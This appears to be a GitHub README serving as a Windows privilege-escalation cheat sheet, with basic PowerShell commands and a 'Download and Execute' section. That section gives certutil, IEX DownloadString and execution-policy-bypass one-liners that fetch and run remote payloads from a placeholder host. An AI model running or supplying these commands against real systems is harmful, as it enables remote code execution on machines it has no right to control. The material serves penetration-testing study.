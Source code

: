 # WindowsPrivEsc
Repository on Windows Privilege Escalation, It contains helpful resources which can guide you escalating your privileges on Windows. I was noting all of the Privilege Escalation methods and vectors while I was studying it. Please go through it and you may find it helpful. Also, Small CheatSheets can be found here which can be important. Will keep updating it!


## PowerShell Basic Commands:

`Get-ChildItem` (Displays all the contents in the current directory)

`Get-Alias` (Displays all the aliases)

`Set-Alias` (Setup your Alias)

`$profile` (Lists your powershell profile, for eg: `"C:\Users\user\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1"`)

`Import-Module ./PowerUp.ps1` (Imports a PowerShell Script Module)

`Remove-Item` (Delete any file or folder)

`Import-Alias` (Import aliases)

## Download and Execute:

### CertUtil:

`certutil -urlcache -f http://127.0.0.1/sample.exe C:\temp\sample.exe && C:\temp\sample.exe`

### PowerShell:

`Invoke-WebRequest "http://127.0.0.1/sample.exe" -OutFile "C:\temp\sample.exe"` (This will only download the file)

`echo IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/sample.exe') | powershell -noprofile -`

`powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://127.0.0.1/sample.ps1')|iex"`

# Socials

TwitterID: https://twitter.com/BhalgamaVedant 

YouTube: https://www.youtube.com/channel/UCIlMtOiRDi1luvhtjczvjJw 
